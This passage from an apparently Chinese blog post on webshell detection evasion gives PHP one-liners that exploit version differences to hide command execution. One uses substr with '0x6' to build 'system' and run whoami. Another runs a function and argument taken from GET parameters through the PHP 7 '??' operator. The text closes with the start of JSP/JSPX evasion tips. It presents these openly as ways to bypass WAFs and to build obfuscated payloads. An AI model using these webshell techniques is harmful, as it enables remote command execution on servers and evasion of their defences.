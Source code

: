 ![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUMibkRMC8WlZibD2TmwFKaeUIr7yEqLgFVfYDIoHHFfp9azf9tVs1WMlQ/640?wx_fmt=png)

3、十六进制字符串
---------

在php7中不认为是数字，php5则依旧为数字

经过测试 5.3 和5.5可以成功执行命令，5.2和php7无法执行

```
<?php  
$s=substr("aabbccsystem","0x6");  
$s(whoami)  
?>
```

#### 7.3 命令执行失败

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUVaTqnC3mQGl1IUAia0DFYsmyYMbaw7NLK6IGicxCojzoTqyCTFBMG3ug/640?wx_fmt=png)

#### 5.2 命令执行失败

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCU1KQicUwXpwQJXsqlBeqsLPrA5lIKpO3cIRicPpFrBptftibQWg8gCKtag/640?wx_fmt=png)

### 5.3 命令执行成功

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCU1KQicUwXpwQJXsqlBeqsLPrA5lIKpO3cIRicPpFrBptftibQWg8gCKtag/640?wx_fmt=png)

除此之外，还有很多种利用版本差异性来bypass一些没有对所有版本进行检测更新的所谓的"先进waf"。

当然，对于我们可以结合垃圾数据，变形混淆，以及大量特殊字符和注释的方式来构造更多的payload,毕竟每家的waf规则不同，配置也不同，与一些传输层面的bypass进行结合产生的可能性就会非常多样。

例如：  
7.0版本的??特性，如果版本为5.x的话就会报错，可以结合一些其他的方式吧

```
<?php  
$a = $_GET['function'] ?? 'whoami';  
$b = $_GET['cmd'] ?? 'whoami';  
$a(null.(null.$b));
```

jsp免杀
-----

* * *

本人对java研究的不是非常深入，因此主要分享的还是平时收集的几个小tips，如果有没看过的师傅现在看到了也是极好的，java unicode绕过就不再多言。

#### 0、小小Tips

jsp的后缀可以兼容为jspx的代码，也兼容jspx的所有特性，如CDATA特性。

jspx的后缀不兼容为jsp的代码，jspx只能用jspx的格式

#### 1、jspx CDATA特性
